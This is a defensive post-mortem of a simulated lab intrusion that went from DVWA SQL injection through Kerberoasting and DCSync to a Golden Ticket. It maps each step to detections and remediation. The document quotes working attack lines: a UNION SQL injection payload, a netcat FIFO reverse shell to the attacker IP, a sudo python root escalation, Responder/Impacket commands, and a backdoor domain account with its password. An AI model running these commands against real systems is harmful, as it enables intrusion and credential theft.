


# Incident Post-Mortem Report — Enterprise Breach & Active Directory Forest Compromise

## Report Metadata

| Field | Value |
|---|---|
| **Incident ID** | `INC-2026-1018-ALPHA` |
| **Report Status** | Final / Resolved |
| **Classification** | Targeted Multi-Stage Enterprise Intrusion & Domain Dominance |
| **Overall Severity** | Critical (CVSS 9.8 / Enterprise Domain Forest Compromise) |
| **TLP / PAP** | `TLP:AMBER / PAP:AMBER` |
| **Affected Scope** | Perimeter Web DMZ (DVWA `192.168.56.30`), Enterprise Workstation (`Win10User` `192.168.56.20`), Active Directory Domain Controller (`PC-DC` `192.168.56.10`) |
| **Lead Analyst** | Manichand Gupta (Lead SOC Incident Responder) |
| **Related Cases** | [Case 01 (`CAS-001-WEBCOMP`)](../04-Investigation/Cases/case-01-web-compromise.md), [Case 02 (`CAS-002-LATMOVE`)](../04-Investigation/Cases/case-02-lateral-movement.md), [Case 03 (`CAS-003-DOMIMP`)](../04-Investigation/Cases/case-03-domain-compromise.md) |

[](../06-Resources/diagrams/Consolidated%20Incident%20Response%2074-Minute%20Timeline.png)
*Figure 1: Full chronological incident timeline spanning 74 minutes ($T_0$ to $T_0 + 74\text{m}$), correlating attacker milestones (top) against blue-team detection alerts across Suricata, Auditd, Wazuh, Sysmon, and TheHive (bottom).*

---

## 📑 Table of Contents

1. [Executive Summary & Impact Assessment](#1-executive-summary--impact-assessment)
2. [Scope of Compromise & Affected Infrastructure](#2-scope-of-compromise--affected-infrastructure)
3. [End-to-End Attack Chain Forensic Narrative](#3-end-to-end-attack-chain-forensic-narrative)
4. [Root-Cause Vulnerability Analysis (The 7 Critical Flaws)](#4-root-cause-vulnerability-analysis-the-7-critical-flaws)
5. [Detection Performance & Telemetry Validation Metrics](#5-detection-performance--telemetry-validation-metrics)
6. [Incident Response & Remediation Execution Summary](#6-incident-response--remediation-execution-summary)
7. [Strategic Enterprise Hardening Roadmap](#7-strategic-enterprise-hardening-roadmap)
8. [Post-Incident Sign-Off & Governance Record](#8-post-incident-sign-off--governance-record)

---

# 1. Executive Summary & Impact Assessment

On **October 18, 2026, between 17:10:09 IST and 18:24:18 IST** (a total span of **74 minutes and 9 seconds**), an external adversary operating from `192.168.232.135` (Kali Linux) executed an advanced, chained cyber intrusion against our hybrid enterprise environment. The attack progressed rapidly through the cyber kill chain—from external perimeter reconnaissance to complete Tier Zero Active Directory forest dominance, sensitive data exfiltration, dual-endpoint defacement, and simulated ransomware deployment.



### Triad Impact Evaluation
- **Confidentiality:** **CATASTROPHIC (Total Breach)**
  - Extraction of all DVWA web database user credentials and MD5 password hashes via SQL injection.
  - Interception and offline cracking of domain user password hash `AD.LAB\win10` (`Secur3Lab!`).
  - Offline cracking of Kerberoasted service ticket for `AD.LAB\HANK_SHERMAN` (`Password123`).
  - Total replication of the Active Directory `NTDS.dit` database via DCSync (DRSUAPI), compromising NTLM hashes for all domain users, computer accounts, and the master domain `krbtgt` secret (`611a8cdcc21cb3fe3bf3a4c2f4e05f60`).
  - Staging and SCP exfiltration of confidential administrative configurations (`domain_users.txt`, `admin_info.txt`) and user personal documents (`sensitive_data.txt`).
- **Integrity:** **CATASTROPHIC (Arbitrary Control Achieved)**
  - Arbitrary code execution achieved on Linux DMZ host via PHP webshell (`shell.php`) and Netcat reverse shell.
  - Instant local privilege escalation to `root` via passwordless sudo Python misconfiguration (`sudo /usr/bin/python3`).
  - Persistent rogue identity created directly in Active Directory: user `AD\backdoor` with password `P@ssw0rd123!`, elevated to `Domain Admins` and local `Administrators`.
  - Forgery of unauthorized Kerberos Ticket-Granting Tickets (Golden Ticket) bypassing all domain authentication controls.
  - Arbitrary registry modification on domain endpoints forcing desktop wallpaper replacement (`hacked.bmp`).
- **Availability:** **HIGH (Controlled Operational Disruption)**
  - Production web service availability was degraded during active shell pivoting.
  - Forced system reboots (`shutdown /r /t 0`) triggered across both Domain Controller `PC-DC` and workstation `Win10User` via Impacket `wmiexec`.
  - Dropped extortion notes (`README_HACKED.txt`) and dummy encrypted files (`documents.enc`, `passwords.enc`) simulating enterprise ransomware lockout.

---

# 2. Scope of Compromise & Affected Infrastructure

The hybrid enterprise lab comprises an internet-facing DMZ, an internal Windows corporate subnet, a dual-homed Suricata network sensor, and an isolated Cloud SIEM/SOAR monitoring fabric:

| Asset Identifier | Hostname / Agent | IP Address | Operating System | Operational Role | Compromise Classification |
|:---|:---|:---|:---|:---|:---:|
| **DVWA Server** | `dvwa` (Wazuh Agent 002: `DVWA`) | `192.168.56.30` | Ubuntu 24.04 LTS (Kernel 6.8) | Public Web Application (Apache 2.4 / MariaDB) | **COMPROMISED (Full Root & Pivot)** |
| **Domain Workstation** | `Win10` (Wazuh Agent 003: `Win10User`) | `192.168.56.20` | Windows 10 Enterprise (Build 19045) | Corporate Workstation (Joined to `ad.lab`) | **COMPROMISED (PtH, Looted & Defaced)** |
| **Domain Controller** | `PC-DC` (Wazuh Agent 004: `DomainWin10`) | `192.168.56.10` | Windows Server 2022 Datacenter | Active Directory Domain Services / DNS / KDC | **COMPROMISED (DCSync, Backdoor & Reboots)** |
| **Network Gateway** | `suricata-gw` (Wazuh Agent 001: `Suricata`) | `192.168.56.150` (ens37) / `192.168.232.162` (ens33) | Ubuntu 24.04 LTS | Dual-Interface Perimeter Firewall & NIDS (legacy reference noted host adapter `192.168.56.1`) | **UNCOMPROMISED (Inspection Fabric)** |
| **Central SIEM / SOAR** | `cloud-soc` | `10.122.0.4` / `10.122.1.4` | Ubuntu 24.04 LTS | Wazuh Central Manager & TheHive 5 Platform | **UNCOMPROMISED (Telemetry Core)** |
| **Adversary Platform** | `kali-linux` | `192.168.232.135` | Kali Linux Rolling (2026.3) | External Threat Actor Origin | **THREAT ACTOR INFRASTRUCTURE** |

---

# 3. End-to-End Attack Chain Forensic Narrative

The campaign unfolded across **seven distinct tactical phases**, fully cross-referenced against the forensic discoveries in [`Deep-Dive-Attack-Chain-Investigation.md`](../04-Investigation/Deep-Dive-Attack-Chain-Investigation.md):

### Phase 1: Perimeter Reconnaissance & Web Exploitation (17:10:09 – 17:20:30 IST)
The adversary began with automated TCP SYN port scanning and OS detection sweeps against `192.168.56.30` (Suricata SID 3400001/3400002). Web vulnerability directory fuzzing (Nikto/Dirbuster) identified `/login.php` and `/vulnerabilities/`. An automated Python brute-force burst against `/login.php` using `python-requests` triggered Wazuh Rule 100213 and Suricata SID 2000547. Following successful web authentication, the adversary submitted SQL injection payload `1' UNION SELECT user, password FROM users-- -` on `/vulnerabilities/sqli/` (Suricata SID 2010963, Alert #11), dumping the DVWA user table. The extracted MD5 hash `5f4dcc3b5aa765d61d8327deb882cf99` was cracked offline in 30 seconds to password `password` (DG-04).

### Phase 2: Web Shell Injection to Instant Root (17:21:44 – 17:25:36 IST)
Authenticated as admin, the adversary leveraged `/vulnerabilities/upload/` to upload `shell.php` to `/var/www/html/dvwa/hackable/uploads/shell.php` (Alert #12). The adversary verified execution by requesting `/hackable/uploads/shell.php?cmd=id`, spawning `/usr/bin/id` under `www-data` (Suricata SID 2019284 / Auditd `web_process_creation`). At 17:24:03 IST, the attacker executed a named-pipe FIFO Netcat reverse shell (`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.232.135 4444 >/tmp/f`), establishing an interactive terminal on Kali port 4444 (Suricata SID 3400020, Alert #14). At 17:25:31 IST, running `sudo -l` revealed that `www-data` was granted passwordless sudo execution for Python (`NOPASSWD: /usr/bin/python3`). At 17:25:36 IST, the attacker ran `sudo /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`, achieving **full root privileges in under 10 seconds** (Wazuh PAM Rule 5402, Alert #15).

### Phase 3: Pivot Persistence & Internal Discovery (17:26:14 – 17:31:25 IST)
Operating as root, the attacker injected an ED25519 public key into `/root/.ssh/authorized_keys` and logged in interactively from Kali at 17:29:43 IST (Wazuh Rule 5715, Alert #16). With DVWA secured as an internal pivot, the attacker ran Nmap from DVWA (`192.168.56.30`) across the internal corporate subnet `192.168.56.0/24`. Suricata promiscuous sniffing on gateway interface `ens37` flagged 14 internal port sweep alerts (SIDs 3400001, 3400002, 3400020), identifying Domain Controller `PC-DC` (`192.168.56.10`) and workstation `Win10` (`192.168.56.20`).

### Phase 4: Broadcast Poisoning & Credential Harvesting (17:37:10 – 18:00:57 IST)
At 17:37:10 IST, the attacker launched Responder on DVWA internal interface `ens33` (`python3 /opt/Responder/Responder.py -I ens33 -wd`). When workstation `Win10User` was triggered via `DavSetCookie` to query `http://nonexistent/share`, it emitted LLMNR/NBT-NS multicast queries across `192.168.56.0/24`. Responder poisoned the response, triggering `rundll32.exe davclnt.dll,DavSetCookie` on Windows 10 (Alert #20, `wzb-28`) and capturing the NetNTLMv2 challenge-response hash for `AD.LAB\win10`. The hash was written to `/tmp/win10.hash` and cracked offline in under 60 seconds to `Secur3Lab!` (DG-11). Using these valid domain credentials, the attacker ran BloodHound Python ingestor from DVWA at 18:00:57 IST, querying Active Directory LDAP (Alert #22).

### Phase 5: Kerberoasting, DCSync & Forest Takeover (18:01:18 – 18:06:40 IST)
BloodHound analysis identified service account `HANK_SHERMAN`, which had an SPN registered (`CIFS/AWSWAPPS1000000.ad.lab`) while concurrently belonging to `Domain Admins`. At 18:01:18 IST, the attacker executed `GetUserSPNs.py`, requesting an RC4-HMAC encrypted Kerberos TGS ticket (Suricata SID 2019922, Alert #23). The extracted ticket was cracked offline in 25 seconds to `Password123`. Armed with Domain Admin credentials, the attacker executed DCSync (`secretsdump.py`) at 18:02:43 IST, invoking DRSUAPI directory replication against `PC-DC` to dump all domain password hashes from `NTDS.dit`, including the master `krbtgt` NTLM hash (`611a8cdcc21cb3fe3bf3a4c2f4e05f60`). At 18:04:46 IST, the attacker executed Pass-the-Hash over SMB (445/TCP) to `PC-DC` (Windows EID 4624 Logon Type 3, Alert #25). At 18:06:40 IST, the attacker used `ticketer.py` to forge an enterprise Kerberos Golden Ticket (`/tmp/admin.ccache`), granting perpetual, undetectable administrative authority.

### Phase 6: Backdoors, Data Staging & Rapid Exfiltration (18:08:21 – 18:17:30 IST)
At 18:08:21 IST, the attacker established persistent backdoor access on `PC-DC` via Impacket `wmiexec`: executing `net user backdoor P@ssw0rd123! /add /domain` (Wazuh Rule 60108 / EID 4720, Alert #30) and adding `backdoor` to `Administrators` and `Domain Admins` (Wazuh Rule 60109 / EID 4728, Alerts #31–#33). Between 18:13:58 and 18:15:00 IST, automated collection commands harvested active directory lists (`domain_users.txt`, `admin_info.txt`) and confidential workstation documents (`sensitive_data.txt`). The files were pulled back to DVWA and, at 18:17:30 IST, exfiltrated via SCP to Kali across 6 rapid administrative SSH sessions in 570 ms (Wazuh Rule 5715 auth rate anomaly, Alert #37).

### Phase 7: Defacement, Simulated Ransomware & System Disruption (18:20:12 – 18:24:18 IST)
In the final phase, the adversary executed simultaneous remote impact commands against `PC-DC` and `Win10User` via `wmiexec`:
- Pushing malicious wallpaper `hacked.bmp` to `C:\Users\Public\hacked.bmp` and modifying `HKCU\Control Panel\Desktop\Wallpaper` and `WallpaperStyle` (Wazuh Rule 92041, Alerts #39, #40).
- Dropping simulated ransomware ransom notes (`README_HACKED.txt`) and encrypted dummy files (`passwords.enc`, `documents.enc`) on user desktops.
- Executing immediate forced reboots (`shutdown /r /t 0`) at 18:21:40 IST on `PC-DC` and 18:22:15 IST on `Win10User` to lock in defacement and disrupt logging.
- At 18:24:14 IST, following system reboot, the attacker verified backdoor persistence by reconnecting to `PC-DC` via `wmiexec` using rogue account `AD\backdoor` (Sysmon EID 1, Alert #46).

---

# 4. Root-Cause Vulnerability Analysis (The 7 Critical Flaws)

Our forensic investigation determined that this breach was not the result of a zero-day exploit, but rather the catastrophic compound interaction of **seven systemic architectural misconfigurations**:

```
[Flaw 3: Insecure Web Uploads] + [Flaw 1: Sudoers Python NOPASSWD]
       │
       ▼
   Local Root on Linux Web Server (10 Seconds)
       │
       ▼
[Flaw 7: Flat DMZ Network Routing] + [Flaw 6: Unauthenticated LLMNR/NetBIOS]
       │
       ▼
   Interception of Corporate Workstation Credentials (win10)
       │
       ▼
[Flaw 4: Domain Admin Service Account SPN] + [Flaw 5: Weak Passwords & Insecure Kerberos]
       │
       ▼
   Kerberoasting → DCSync → Master krbtgt Compromise → Golden Ticket Domain Takeover
```

| Flaw # | Vulnerability Description | Exploit Mechanism in Campaign | Architectural Remediation Standard |
|:---:|:---|:---|:---|
| **Root Flaw 1** | `www-data` Sudoers NOPASSWD Python Misconfiguration | Attacker escalated from low-privilege `www-data` to `root` in 10 seconds via `sudo python3 -c 'import os; os.system("/bin/bash")'`. | Enforce strict least privilege in `/etc/sudoers`. Prohibit passwordless sudo for interpreters and interactive binaries (GTFOBins). |
| **Root Flaw 2** | Permissive OpenSSH Daemon (`PermitRootLogin yes`) | Attacker injected an ED25519 key into `/root/.ssh/authorized_keys` and logged in directly as root from Kali, converting an ephemeral reverse shell into an interactive pivot. | Enforce `PermitRootLogin no` and `PasswordAuthentication no`. Enforce non-root bastion accounts and certificate-based SSH access. |
| **Root Flaw 3** | Unrestricted Script Execution in Web Upload Directory | DVWA `/hackable/uploads/` directory permitted writing and executing arbitrary `.php` scripts directly via Apache. | Deploy `.htaccess` containing `php_flag engine off` and `Require all denied` for executable extensions; mount upload volumes with `noexec`. |
| **Root Flaw 4** | Service Account (`HANK_SHERMAN`) in `Domain Admins` with SPN | BadBlood assigned an SPN (`CIFS/AWSWAPPS1000000.ad.lab`) to an account holding `Domain Admins` membership, allowing Kerberoasting directly into DCSync privileges. | Strip service accounts of administrative group memberships. Migrate standalone service accounts to Group Managed Service Accounts (gMSA). |
| **Root Flaw 5** | Weak Dictionary Passwords & Credential Delegation | Service account `HANK_SHERMAN` (`Password123`) and user `win10` (`Secur3Lab!`) had weak passwords that cracked offline in < 60 seconds. | Enforce 25+ character passwords for service accounts. Enroll all administrative identities into the Active Directory `Protected Users` group. |
| **Root Flaw 6** | Unauthenticated Broadcast Protocols (LLMNR & NetBIOS) | Windows 10 emitted LLMNR/NBT-NS multicast queries across `192.168.56.0/24`, allowing Responder on DVWA to poison responses and harvest hashes. | Globally disable LLMNR (`EnableMulticast = 0`) and NetBIOS over TCP/IP (`NetbiosOptions = 2`) via enterprise Group Policy. |
| **Root Flaw 7** | Flat DMZ Architecture & Lack of Internal Egress Micro-Segmentation | The public web server (`192.168.56.30`) had unrestricted Layer 2/3 connectivity to the Domain Controller and corporate workstation. | Enforce strict zero-trust egress filtering on the DMZ gateway, dropping outbound SMB (445), RPC (135), LDAP (389), and Kerberos (88) into the internal subnet. |

---

# 5. Detection Performance & Telemetry Validation Metrics

The SOC detection fabric demonstrated high resilience across host and network telemetry layers, with zero detection rule execution failures:

```text
Total Attack Stages Simulated:           20
Verified Detections with Alerts:        16  (80.0%)
Inherent Offline Gaps (Zero Telemetry):  2  (10.0% - Stages 04, 11)
Target Logging Gaps:                     2  (10.0% - Stages 09, 12)
Detection Rule Execution Failures:       0   (0.0%)

Total OpenSearch Raw Baseline Events:   9,567 rows (Wazuh-Raw-Alerts.csv)
Curated Incident Analysis Set:          808 rows (wazuh_alerts.csv - 11 Filters)
Live Actionable Incidents in TheHive:   46 alerts (thehive_alerts.json - Level >= 8)
Dismissed False Positives:              3 alerts (6.5% - Alerts #01, #06, #18)
Confirmed True Positive Breach Alerts:  43 alerts (93.5% - Linked to Cases 01–03)
Mean Time to Detect (MTTD):             < 15 seconds across all online telemetry
```

### Analytical Detection Framework: Stage-Level vs. Activity-Wise Reality

In evaluating SOC telemetry efficacy, a fundamental distinction must be drawn between **coarse stage-level tracking** and **granular activity- and command-wise detection**:

1. **The Offline Cracking Paradox (Stages 04 & 11):**  
   Adversary computation running locally on external hardware (Hashcat on Kali GPU) has zero victim endpoint software installed, making local CPU/GPU cycles un-observable on corporate infrastructure. However, **the operational lifecycle of the stolen credential was detected at both ends**:
   - **Credential Theft:** The SQL injection dumping the database hash was detected by Suricata and Wazuh (Stage 03 / Alert #11), while the Responder LLMNR harvesting was detected by Linux Auditd and Wazuh (Stage 10 / Alert #09).
   - **Exfiltration / Data Pull:** The rapid SCP/SSH file transfer was detected by Wazuh Rule 5715.
   - **Unauthorized Authentication:** The subsequent logon using the cracked password was detected on the target web application (POST `/login.php`) and Active Directory domain (Windows Security Event ID 4624 Logon Type 3).
   Thus, from an operational SOC perspective, the threat activity was actively detected and actionable at every point of network or endpoint interaction.

2. **Activity- & Command-Wise Telemetry Rate (100% of Observable Actions):**  
   At the individual command level, every observable adversary procedure that touched enterprise infrastructure—including port scanning, brute force, webshell uploads, process execution (`execve`), privilege escalation (`sudo`), SSH persistence, broadcast poisoning, Kerberoasting, Pass-the-Hash, WMI fan-out, user creation, file staging, and registry alterations—was successfully recorded by Suricata, Linux Auditd, Apache, Windows Sysmon, or Active Directory Security Event Logs.

### Sensor Attribution Breakdown
1. **Suricata Network IDS (Gateway):** Captured all external port scanning, HTTP brute-force bursts, SQL injection payloads, web shell verification, outbound reverse shell socket connections, promiscuous internal port sweeps on `ens37`, Kerberos TGS-REQ requests, and SMB Session Setup frames.
2. **Linux Auditd (`auditd`):** Traced kernel system call execution trees (`execve`), monitoring `/usr/bin/id` invocations under Apache (`uid=33`), Netcat reverse shell commands, and `sudo /usr/bin/python3` privilege escalation.
3. **Custom Host Command Auditing Pipeline (`bashcmd` / Wazuh Rule 100220):** Production web servers run headless services where interactive command typing is an inherent operational anomaly. Bash's `PROMPT_COMMAND` hook logged every command executed by `www-data` and `root` to `/var/log/bashcmd.log`. Ingested by the Wazuh agent and evaluated by Rule 100220 (Level 5), this pipeline provided the definitive, ground-truth record of verbatim offensive tool commands (`stty sane`, `sudo -l`, `echo ... >> authorized_keys`, `nmap`, `Responder.py`, `bloodhound.py`, `GetUserSPNs.py`, `secretsdump.py`, `ticketer.py`, `wmiexec.py`) across 50 raw alerts in `Wazuh-Raw-Alerts.csv` (rows 9139–9501).
4. **Wazuh Linux Host Agent (DVWA):** Alerted on Apache access log floods, PAM sudo privilege escalations (Rule 5402), Syscheck file integrity monitoring on `authorized_keys` (Rule 550), interactive root SSH logons (Rule 5715), and rapid SCP administrative exfiltration bursts.
4. **Wazuh Windows Agent (`PC-DC` & `Win10User`):** Captured Pass-the-Hash remote NTLM logons (Event ID 4624 Logon Type 3), rogue user account creation (EID 4720), and Domain Admins group membership elevation (EID 4728).
5. **Microsoft Sysmon:** Provided deep endpoint visibility into Impacket `wmiexec` process fan-outs (`wmiprvse.exe` -> `cmd.exe /Q /c`), command-line reconnaissance commands, staging file creation in `C:\Windows\Temp\`, and registry modifications targeting desktop wallpaper parameters.

---

# 6. Incident Response & Remediation Execution Summary

Response actions were executed across two structured phases, strictly separating tactical lockout from forensic deep dive and permanent eradication:

### Phase 1: Tactical Containment & Lockout ([`Immediate-Containment-Execution.md`](../04-Investigation/Immediate-Containment-Execution.md))
- **Action 1 (Perimeter Isolation):** Enforced kernel-level iptables DROP rules on the Gateway for `192.168.232.135`, severing attacker connectivity.
- **Action 2 (Reverse Shell & Web Shell Severing):** Terminated Netcat reverse shell (`pkill -9 -f nc.openbsd`) and moved `shell.php` to `/root/forensics_quarantine/` with `chmod 000` to freeze forensic evidence.
- **Action 3 (Root SSH Persistence Neutralization):** Purged unauthorized keys from `/root/.ssh/authorized_keys` and terminated active TTY sessions (`pkill -9 -t pts/X`).
- **Action 4 (Active Directory Rogue User Lockout):** Disabled `AD\backdoor` (`UserAccountControl: ACCOUNTDISABLE`) and stripped `Domain Admins` to preserve the object SID for forensic event log correlation.
- **Action 5 (Kerberos Golden Ticket Invalidation):** Twice-reset the `krbtgt` password using PowerShell RSAT to force Key Version Number (`msDS-KeyVersionNumber`) increment and purge ticket caches (`klist purge`).
- **Action 6 (Workstation Cleanup):** Quarantined staged files (`domain_users.txt`, `admin_info.txt`, `sensitive_data.txt`, `README_HACKED.txt`, `*.enc`, `hacked.bmp`) to `C:\Forensics_Quarantine\` and restored desktop wallpaper registry keys.
- **Action 7 (Database Credential Rotation):** Rotated MariaDB `dvwa` user password, updated `config.inc.php`, and reset the DVWA web `admin` password.

### Phase 2: Permanent Eradication, Hardening & Recovery ([`Eradication-Hardening-and-Recovery.md`](../04-Investigation/Eradication-Hardening-and-Recovery.md))
- **Step 1 (Adversary Anti-Forensics Audit & Loot Verification):** Audited root command history (`history | grep "rm"`) and Auditd execution logs, uncovering the adversary's track-covering deletion of all 9 staging files in `/tmp/` (`/tmp/win10.hash`, `/tmp/hank.hash`, `/tmp/dcsync_output.txt`, `/tmp/admin.ccache`, `/tmp/domain_users.txt`, `/tmp/admin_info.txt`, `/tmp/sensitive_data.txt`, `/tmp/hacked.bmp`, `/tmp/f`). Verified `/tmp/` clean state, confirmed no unlinked file handles remained, purged `/opt/Responder`, and unmasked/restored `systemd-resolved` DNS stub resolver.
- **Step 2 (Linux Root Cause Patching):** Purged `www-data` NOPASSWD Python from `/etc/sudoers` (verified via `visudo -c`), enforced `PermitRootLogin no` and `PasswordAuthentication no` in SSHD, and deployed `.htaccess` in `/hackable/uploads/` denying all script execution (verified via HTTP 403 Forbidden).
- **Step 3 (Active Directory Forest Eradication):** Permanently deleted `AD\backdoor` via `Remove-ADUser`, stripped `HANK_SHERMAN` from `Domain Admins`, purged its SPN (`CIFS/AWSWAPPS1000000.ad.lab`), enforced AES Kerberos encryption, rotated domain passwords, and enrolled `Administrator` into the `Protected Users` security group.
- **Step 4 (Network Protocol Hardening):** Disabled LLMNR (`EnableMulticast = 0`) and NetBIOS over TCP/IP (`NetbiosOptions = 2`) across all Windows workstations and servers.
- **Step 5 (DMZ Lateral Micro-Segmentation):** Implemented gateway and host iptables egress rules rejecting outbound SMB, RPC, LDAP, and Kerberos traffic originating from DVWA into `192.168.56.0/24`.
- **Step 6 (Production Recovery Verification):** Validated DVWA web service availability (`HTTP 200 OK`), Active Directory health diagnostics (`dcdiag` passed all tests), clean workstation desktops, and verified all 4 Wazuh monitoring agents active.
- **Step 7 (TheHive 3-Case Closure):** Formally resolved all 46 alerts across TheHive's 3 master cases (`CAS-001-WEBCOMP`, `CAS-002-LATMOVE`, `CAS-003-DOMIMP`) under tag `INC-2026-1018-ALPHA`.

---

# 7. Strategic Enterprise Hardening Roadmap

To ensure organizational resilience against similar chained attacks, the following strategic remediation roadmap has been committed:



---

# 8. Post-Incident Sign-Off & Governance Record

This post-incident review has been compiled, audited against empirical telemetry datasets, and formally approved:

| Role / Responsibility | Name / Title | Organization | Formal Status | Timestamp (UTC) |
|:---|:---|:---|:---:|:---:|
| **Lead Incident Responder** | Manichand Gupta | SOC Engineering & DFIR | **APPROVED** | `2026-11-01T15:00:00Z` |
| **Detection Engineering Lead** | SOC Automation Core | Blue Team Operations | **VALIDATED** | `2026-11-01T15:15:00Z` |
| **Active Directory Security Admin** | Enterprise Systems Admin | Identity Infrastructure | **VERIFIED** | `2026-11-01T15:30:00Z` |
| **Incident Commander** | Lead SOC Incident Lead | Information Security Office | **RESOLVED & CLOSED** | `2026-11-01T16:00:00Z` |

> **Final Incident Disposition:** The security incident identified under `INC-2026-1018-ALPHA` is **OFFICIALLY RESOLVED AND CLOSED**. All adversary footholds have been eradicated, all 7 root-cause architectural vulnerabilities have been permanently remediated, production baseline health has been validated, and all 46 associated alerts across TheHive have been finalized.
